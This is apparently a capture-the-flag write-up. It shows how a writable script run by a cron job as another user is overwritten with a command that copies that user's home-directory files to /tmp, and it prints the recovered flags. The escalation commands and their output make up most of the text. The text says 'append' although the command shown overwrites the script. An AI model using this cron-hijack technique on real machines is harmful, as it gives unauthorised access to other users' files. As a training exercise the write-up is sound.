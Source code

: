 ## Neural Network 4.5
Due to the small oversight of challenge number 4. We quickly decided to release the same challenge again but with
the privilege issue fixed. So now only `gpt` can read the flag file.

Now if we look into what cronjobs are running on the machine we find the following:

```bash
dalle@21f1622aa404:~$ ls /etc/cron.d
backup  e2scrub_all  train
dalle@21f1622aa404:~$ cat /etc/cron.d/train
SHELL=/bin/bash

* * * * * gpt /home/gpt/train.sh
# Don't remove the empty line at the end of this file. It is required to run the cron job
```

If we try to edit the `/home/gpt/train.sh` file we will find that we can write to it. So we can append a command to it and it will run:

```bash
echo "find /home/gpt/ -exec cat {} > /tmp/output \;" > /home/gpt/train.sh
```

Now we can `grep` for `gg` in `/tmp/output` until we get the flag:

```bash
dalle@21f1622aa404:~$ grep -r gg /tmp/output
grep: /tmp/output: No such file or directory
dalle@21f1622aa404:~$ grep -r gg /tmp/output
gg{ch3ckm4rk_0f_t1m3}
gg{GPT_Raiders_of_the_Lost_Vault}
```

